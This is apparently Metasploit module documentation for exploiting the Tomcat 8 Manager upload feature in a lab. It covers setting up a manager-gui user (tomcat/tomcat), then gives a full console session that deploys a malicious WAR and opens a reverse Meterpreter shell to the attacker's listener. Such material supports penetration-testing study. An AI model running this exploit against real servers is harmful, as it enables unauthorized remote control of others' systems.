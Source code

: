 ### Tomcat8 (8.0.32) - Ubuntu server 16.04 64bit
Of note, as of 7, the permission role 'manager' has been divided into several sub-roles.  The `manager-gui` permission is required for this exploit.

#### Setup

1. `apt-get install tomcat8 tomcat8-admin`

#### text/script Interface Exploitation

1. Edit `/etc/tomcat8/tomcat-users.xml` to add:

```xml
<role rolename="manager-gui"/>
<user username="tomcat" password="tomcat" roles="manager-gui"/>
```

2. Restart the service if a user was added/changed: `sudo service tomcat8 restart`

3. Exploit:

```
msf > use exploit/multi/http/tomcat_mgr_upload
msf exploit(tomcat_mgr_upload) > set HttpUsername tomcat
HttpUsername => tomcat
msf exploit(tomcat_mgr_upload) > set HttpPassword tomcat
HttpPassword => tomcat
msf exploit(tomcat_mgr_upload) > set payload java/meterpreter/reverse_tcp
payload => java/meterpreter/reverse_tcp
msf exploit(tomcat_mgr_upload) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(tomcat_mgr_upload) > set verbose true
verbose => true
msf exploit(tomcat_mgr_upload) > set rhost 192.168.2.118
rhost => 192.168.2.118
msf exploit(tomcat_mgr_upload) > set rport 8088
rport => 8088
msf exploit(tomcat_mgr_upload) > check

[*] Tomcat Manager found running on linux platform and x64 architecture
[*] 192.168.2.118:8088 The target appears to be vulnerable.
msf exploit(tomcat_mgr_upload) > exploit

[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Retrieving session ID and CSRF token...
[*] Finding CSRF token...
[*] Uploading and deploying Bjf01M65XUROXL36wmIc85OmtY...
[*] Uploading 6092 bytes as Bjf01M65XUROXL36wmIc85OmtY.war ...
[*] Executing Bjf01M65XUROXL36wmIc85OmtY...
[*] Executing /Bjf01M65XUROXL36wmIc85OmtY/UbPmEhI1wkAf8Yj1rTohvPQWPIADy5.jsp...
[*] Finding CSRF token...
[*] Undeploying Bjf01M65XUROXL36wmIc85OmtY ...
[*] Sending stage (49409 bytes) to 192.168.2.118
[*] Meterpreter session 3 opened (192.168.2.117:4444 -> 192.168.2.118:33814) at 2017-01-15 20:08:13 -0500

meterpreter > sysinfo
Computer    : tomcat
OS          : Linux 4.4.0-59-generic (amd64)
Meterpreter : java/linux
```
